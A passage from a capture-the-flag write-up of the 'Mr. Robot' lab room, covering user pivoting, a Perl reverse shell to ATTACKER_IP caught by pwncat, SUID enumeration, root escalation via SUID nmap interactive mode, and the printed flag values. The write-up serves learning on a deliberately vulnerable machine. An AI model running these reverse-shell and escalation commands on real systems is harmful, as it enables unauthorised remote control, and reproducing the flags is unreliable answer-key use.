(remote) daemon@ip-10-10-135-61:/home/robot$ su robot
Password: 
\[\](remote)\[\] \[\]robot@ip-10-10-135-61\[\]:\[\]/home/robot\[\]$
```

It worked again! We can now interact with the target machine as the user `robot`.

```bash
ssh robot@target 
robot@target's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Fri Nov 13 23:50:42 2015
$ id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
```

You can also connect using SSH as OpenSSH is running on the target machine (remember we discovered during the enum phase).

```bash
$ ls
key-2-of-3.txt password.raw-md5
$ cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

We finally got the second key, which is: `822c73956184f694993bede3eb39f959`.

You will likely note that the shell we just obtained (even the SSH shell) isn’t upgraded. If you’re like me and want to get a clean and upgraded shell, we can use `pwncat` again. We need to change the listening port as the `4444` is already taken.

```bash
pwncat -lp 4433 
[13:36:46] Welcome to pwncat 🐈!                                                                       __main__.py:164
bound to 0.0.0.0:4433 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
```

Using the command `which`, I found out that **Perl** is available on the target machine.

We can use it to get a second reverse shell using the following command.

```bash
which perl
/usr/bin/perl # Perl seems to be available

perl -e 'use Socket;$i="ATTACKER_IP";$p=4433;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```

```bash
pwncat -lp 4433 
[13:36:46] Welcome to pwncat 🐈!                                                                       __main__.py:164
[13:37:23] received connection from 10.10.135.61:52852                                                      bind.py:84
[13:37:24] 0.0.0.0:4433: upgrading from /bin/dash to /bin/bash                                          manager.py:957
[13:37:25] 10.10.135.61:52852: registered new host w/ db                                                manager.py:957
(local) pwncat$ # Use CTRL + D to interact with the target machine
(remote) robot@ip-10-10-135-61:/home/robot$
```

We finally obtained our fully functional reverse shell.

Now, as the user `robot`, we can’t do much. We need to escalate our privileges.

First, a good habit to have is to check if there are any SUID files.

```bash
(remote) robot@ip-10-10-135-61:/home/robot$ find / -type f -perm -u=s 2>/dev/null
/bin/umount
/bin/mount
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/pkexec
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Indeed, there are quite a few, but we need to focus on which seems the weirdest to have SUID enabled.

The Nmap one should trigger you → Using GTFObins ([GTFObins](https://gtfobins.github.io/)) it seems we can get root privileges using the -oG option ! Let’s try that

```bash
(remote) robot@ip-10-10-135-61:/home/robot$ nmap -oG
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> id
uid=0(root) gid=0(root) groups=0(root),1002(robot)
nmap> ls -la /root
total 44
drwx------  7 root root 4096 Jun  2 18:26 .
drwxr-xr-x 23 root root 4096 Aug  3 13:25 ..
-rw-------  1 root root    0 Jun  2 18:26 .bash_history
-rw-r--r--  1 root root 3274 Sep 16  2015 .bashrc
drwx------  3 root root 4096 May 29 15:36 .cache
drwx------  3 root root 4096 May 29 15:36 .config
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
drwx------  3 root root 4096 May 29 16:58 .gnupg
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
drwxr-xr-x  3 root root 4096 May 29 17:26 .local
-rw-r--r--  1 root root  161 Jan  2  2024 .profile
-rw-------  1 root root 1024 Sep 16  2015 .rnd
drwx------  2 root root 4096 May 29 15:20 .ssh
-rw-------  1 root root    0 Jun  2 18:26 .viminfo
nmap> cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

P-E-R-F-E-C-T ! We now have successfully upgraded our privileges and gained root access to the target machine 🥳

The 3rd key is: `04787ddef27c3dee1ee161b21670b4e4`

Congrats on completing the Mr. Robot room!

## Summary

This room was about exploiting a vulnerable WordPress website via the WordPress login page. Next, we managed to upload a malicious plugin inside the WordPress website. After gaining a reverse shell on the target machine, we retrieved and cracked a user’s MD5 hash using John the Ripper.

Finally, we successfully gained root privileges on the target machine.

Through this room, I understood how important it is to use a strong password and to keep services updated. It also helped me to get more practical knowledge in web penetration testing (on WordPress at least).

## Acknowledgements

If you’ve made it this far—thank you! Sharing knowledge is what makes the CTF community truly awesome.

I hope this write-up was helpful or at least interesting. And remember:

*Every vulnerability is a lesson in disguise—the more we break, the more we understand how to build.*
